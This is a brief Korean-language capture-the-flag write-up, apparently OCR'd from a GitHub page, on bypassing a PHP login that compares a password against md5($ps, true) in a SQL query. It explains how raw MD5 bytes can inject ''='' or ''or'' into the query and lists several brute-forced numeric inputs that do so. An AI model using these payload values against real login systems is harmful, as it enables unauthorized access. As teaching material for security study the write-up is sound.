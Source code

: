 # md5\_function

## if md5\({arg1}, true\)

1. 소스코드를 확인한다.
2. query문을 보니 sqli를 수행하기 좋아보인다.

> "select  _from admin\_password where password='".md5\($ps,true\)."'" -&gt; "select_  from admin\_password where password='"="'" 또는 select \* from admin\_password where password='"or"'"

이렇게 값이 들어가야되기 때문에 등호값이나 \|\| 기호가 들어간 값을 구한다.

1. 그렇게 구한값을 입력하면 flag값을 얻을 수 있다.

### ex

Found : 1839431

Found : 2584670

Found : 2632003

Found : 2998869

Found : 4939073

Found : 5263117

Found : 5273607

Found : 5872358

Found : 7201387

Found : 8930081

Found : 9235566

.

.

.

